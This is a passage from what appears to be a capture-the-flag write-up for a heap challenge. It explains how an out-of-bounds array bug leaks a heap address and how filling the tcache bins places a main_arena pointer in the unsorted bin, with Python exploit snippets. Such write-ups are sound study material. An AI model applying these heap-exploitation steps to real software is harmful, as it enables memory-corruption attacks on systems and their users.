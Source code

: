 ``` cpp
      printf("<I> %ld\n", data->v_uint);
      break;
    case TYPE_FLOAT:
      printf("<F> %lf\n", data->v_float);
      break;
    default:
      puts("<UNKNOWN>");
      exit(1);
  }

  return 0;
}
```
We can choose show data recursively or not. Also, we can specify levels too. <br />
Edit function also calls this function. <br />
<br />

## Analyze & Exploit
<br />

### Leak heap's address
- For leak heap address, I make an array which length is 4.
- And then, I make subarray at main_array[0], and insert string value to main_array[1].
- I can access main_array[0][1] due to the OOB vulnerability, so I delete it. main_array[0][1] is shared memory with main_array[1](string).
- Next, I create value to main_array[0][1], and by this, heap's address is being string or main_array.
<br />

```python
edit_array([0], 1)
edit_value([1], b'A' * 0x28, False)
delete([0, 1])
edit_value([0, 1], b'asdf', False)
show()
r.recvuntil(b'<S> ')
heap_base = u64(r.recvn(6) + b'\x00' * 2) - 0x430
print(hex(heap_base))
```
<br />

### Making unsorted_bin
- If array's size is 8 or bigger, then it's chunk size is enough to go unsorted_bin, not fastbin.
- By filling up tcache bins with 7 chunks and freeing one more, we can place a main_arena address in the unsorted bin.
- Be careful to make one more chunks to avoid merge with top chunk.
<br />

```python
edit_array([2], 9)
for i in range(9):
    edit_array([2, i], 8) #make lots chunk for free
for i in range(7):
    delete([2, i]) #make full tcache bins
delete([2, 7]) #have main_arena addr
```
<br />
